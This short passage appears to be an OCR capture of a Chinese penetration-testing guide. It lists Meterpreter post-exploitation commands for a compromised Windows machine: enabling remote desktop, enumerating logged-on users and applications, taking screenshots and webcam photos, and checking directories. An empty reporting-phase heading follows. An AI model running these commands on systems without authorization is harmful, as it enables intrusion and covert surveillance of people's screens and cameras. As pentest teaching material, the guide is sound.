 ```markdown
# 启动远程桌面协议
run post/windows/manage/enable_rdp

# 列举当前登录的用户：
run post/windows/gather/enum_logged_on_users

# 查看当前应用程序
run post/windows/gather/enum_applications

# 抓取目标机的屏幕截图
load espia ； screengrab

# 抓取摄像头的照片
webcam_snap

# 查看当前处于目标机的那个目录
pwd

# 查看当前目录
getlwd
```

# 报告阶段
> 暂略

